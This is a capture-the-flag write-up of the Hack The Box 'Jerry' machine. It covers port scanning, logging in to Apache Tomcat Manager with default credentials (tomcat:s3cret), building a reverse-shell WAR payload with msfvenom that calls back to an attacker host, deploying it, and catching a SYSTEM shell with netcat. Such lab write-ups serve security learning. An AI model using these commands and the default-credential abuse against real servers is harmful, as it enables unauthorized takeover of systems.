 # Jerry [HTB](https://app.hackthebox.com/machines/144)
![jerry-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/jerry-01.png)


## Recon 

After adding the target to my `/etc/hosts` file, I scan for open ports with:

```bash
nmap -p- --min-rate 10000 jerry.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/ports-02.png)

Let's run a software and version detection scan againts this port:

```bash
nmap -p 8080 -sCV jerry.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/nmap-res-03.png)

We can see that an Apache Tomcat/Coyote server is running on port 8080. Based on the site's title we can guess that the server is at a fresh install state. 


### Apache-Coyote Port 8080

Before we begin let's answer the following question: 

+ What is Coyote?

From the description of Coyote on the [Tomcat page](https://tomcat.apache.org/tomcat-4.1-doc/config/coyote.html) Coyote is a stand-alone web server that provides servlets to Tomcat applets. That is, it functions like the Apache web server, but for JavaServer Pages (JSP).

It comes with a web interface called the `Manager` which makes it easy to administer and control web applications running in Tomcat using a web browser. Using the Manager, you can deploy a new WAR application and control existing ones without having to restart Tomcat. This should be our exploitation strategy. 

Let's have a look at this server by opening our browser at `http://jerry.htb:8080` :

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/site-04.png)

As you can see, we have three main feature on this page: `Server Status`, `Manager App`, and `host Manager`, the `Manager App` is what we want access to. Each one of these feature controls different aspects of the Coyote server, and to access each feature we need valid credentials. 

For example, clicking on the `Server Status` button brings the following window:

![login-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/login-05.png)

After a few failed login attempts the server will lock you out for several minutes and disaply this error page:

![err-page-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/err-page-06.png)

As you can see, this page gives a description on how to add users and roles to adminster the server. And in this page we can see suggested credentilas of `tomcat:s3cret` which I highlighted in red. So I decided to try them out, and they worked!

![logged-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/logged-07.png)

As you can see, the server redirected me to `manager/status`, where we can view different statics and info about the server. But what we really want is to access the server Manager app. 


So I decided to click on the `List Application` button on the left side of the page, and the Manager loads:

![manager-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/manager-08.png)

Meaning, the `Server-Status` feature, and the `Manager App` feature of the Tomcat server reused the same credentials. So we have access to the manager, let's try to upload a WAR payload!

If we scroll down a bit we can see the WAR deployment section:

![deploy-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/deploy-09.png)

This is where we will upload our WAR payload. And as you can see, the server asks for a WAR file to deploy, which we need to create. We can do this with `msfvenom` as such:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.37 LPORT=9001 -f war > runme.war
```

![msfvenom-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/msfvenom-10.png)

Now we can click on the `Choose File` button and select the war payload we created:


![choose-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/choose-11.png)

And then select `Deploy`. After that, you should see a new application in the applications list called `runme`:

![new-app-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/new-app-12.png)

The tomcat server created a dedicated directory for the uploaded war application. Once we visit this directory, our WAR payload will execute and we should get a connection back to us.

So before we visit the page we need to start a local listener to catch the connection:

```bash
rlwrap nc -lnvp 9001
```

Now we can visit our malicious war application at `http://jerry.htb:8080/runme/` :

![visit-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/visit-13.png)

As you can see this returns an empty page, but on my netcat listener I get a connection:

![root-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/root-14.png)

Apperantly, the Tomcat server was running under `NT Authority` on the target. So when the reverse shell triggered, we got a shell as the system.

If you are after the CTF flags, there is no low level user on this system, only the Administartor user is present. Inside the admin's Desktop page you will find the following directory:

![flags-15]()

There you will find a file that contains both flags. 
